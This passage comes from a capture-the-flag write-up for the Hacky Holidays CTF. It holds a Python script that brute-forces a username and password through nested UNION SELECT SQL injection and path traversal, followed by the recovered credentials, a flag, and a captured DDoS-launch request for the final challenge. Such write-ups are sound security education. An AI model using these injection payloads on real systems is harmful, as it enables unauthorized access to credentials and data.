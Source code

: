 ```python
        
        if r2.text.find("Invalid content type detected") != -1:
            username += c
            print("new char found: " +username)
            search_username(username)

def search_password(password):
    for c in printable:
        if c == '_' or c == '%':
            c = "\\" + c
        r=requests.get('https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=\' UNION SELECT "\' UNION SELECT \'null.jpg\',null,\'../api/user?password={}{}%\'-- -",null,1-- -'.format(password,c))
        regex=re.search('data=.*\"', r.text)
        data_param=regex.group(0)
        data_param = data_param[:-1]
        r2=requests.get('https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?{}'.format(data_param))
        
        if r2.text.find("Invalid content type detected") != -1:
            password += c
            print("new char found: " +password)
            search_password(password)

#search_username(base_username)
search_password(base_password)
```
The credentials returned are _grinchadmin:s4nt4sucks_

We can now login into the attack-box, get the flag number 11 and move on to the 12th and last(ish) challenge.

`flag{07a03135-9778-4dee-a83c-7ec330728e72}`

Flag12 - Attack Box
---------------------
My body and my spirit were put under unimaginable pressure after flag11. Nothing could faze me any longer. I think this what it feels like to reach nirvana. A completely different and better perspective on life was provided to me, so without further ado, let's bring this adventure to an end.

{F1140046}

The Grinch is planning to take down Santa's servers and our goal is to plan a counterattack by taking him down instead. Honestly, it was like a walk in the park (it actually wasn't but it fits the narrative so Imma just run with it). Between a chess match with Buddah and a poker session with a couple of greek gods (I told you I was on a whole different level at this point no?) I was able to inspect the HTTP request responsible for starting a DDoS attack.

```http
GET /attack-box/launch?payload=eyJ0YXJnZXQiOiIyMDMuMC4xMTMuMzMiLCJoYXNoIjoiNWYyOTQwZDY1Y2E0MTQwY2MxOGQwODc4YmMzOTg5NTUifQ== HTTP/1.1
Host: hackyholidays.h1ctf.com
Connection: close
Cookie: attackbox=d09d508e78f3975e0199a5e91dde9687
```
